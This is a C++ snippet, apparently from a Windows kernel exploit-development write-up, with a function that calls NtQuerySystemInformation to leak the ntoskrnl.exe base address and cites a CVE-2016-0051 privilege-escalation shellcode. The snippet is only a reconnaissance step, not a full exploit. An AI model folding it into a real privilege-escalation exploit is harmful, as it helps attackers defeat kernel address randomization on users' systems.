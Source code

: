 ```cpp
    __inout PVOID SystemInformation,
    __in ULONG SystemInformationLength,
    __out_opt PULONG ReturnLength
    );

INT64 get_kernel_base() {

    cout << "[>] Getting kernel base address..." << endl;

    //https://github.com/koczkatamas/CVE-2016-0051/blob/master/EoP/Shellcode/Shellcode.cpp
    //also using the same import technique that @tekwizz123 showed us

    PNtQuerySystemInformation NtQuerySystemInformation =
        (PNtQuerySystemInformation)GetProcAddress(GetModuleHandleA("ntdll.dll"),
            "NtQuerySystemInformation");

    if (!NtQuerySystemInformation) {

        cout << "[!] Failed to get the address of NtQuerySystemInformation." << endl;
        cout << "[!] Last error " << GetLastError() << endl;
        exit(1);
    }

    ULONG len = 0;
    NtQuerySystemInformation(SystemModuleInformation,
        NULL,
        0,
        &len);

    PSYSTEM_MODULE_INFORMATION pModuleInfo = (PSYSTEM_MODULE_INFORMATION)
        VirtualAlloc(NULL,
            len,
            MEM_RESERVE | MEM_COMMIT,
            PAGE_EXECUTE_READWRITE);

    NTSTATUS status = NtQuerySystemInformation(SystemModuleInformation,
        pModuleInfo,
        len,
        &len);

    if (status != (NTSTATUS)0x0) {
        cout << "[!] NtQuerySystemInformation failed!" << endl;
        exit(1);
    }

    PVOID kernelImageBase = pModuleInfo->Modules[0].ImageBaseAddress;

    cout << "[>] ntoskrnl.exe base address: 0x" << hex << kernelImageBase << endl;

    return (INT64)kernelImageBase;
}
```
